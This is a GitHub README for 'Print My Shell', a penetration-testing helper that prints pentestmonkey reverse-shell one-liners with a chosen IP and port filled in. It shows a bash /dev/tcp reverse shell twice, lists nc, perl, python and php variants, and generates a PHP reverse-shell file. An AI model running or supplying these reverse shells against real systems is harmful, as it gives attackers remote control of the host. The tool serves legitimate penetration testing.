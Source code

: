 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Install
----------------
```sh
$ git clone https://github.com/etrock/PMS.git
$ cd PMS
```
You can add to your ~/.bashrc file
```
alias pms='python3 "<pms path>/pms.py"'
source ~/.bashrc
```
and now you can use like :
```sh
$ psm bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-h --host```: *optional*, host IP address\
```-p --port```: *optional* port number

shell types : bash, perl, python, php (shell), ruby, nc, nc-2, java, php-rev (file)


Usage
----------------
```sh
$ python3 pms.py bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py php-rev > shell.php
```
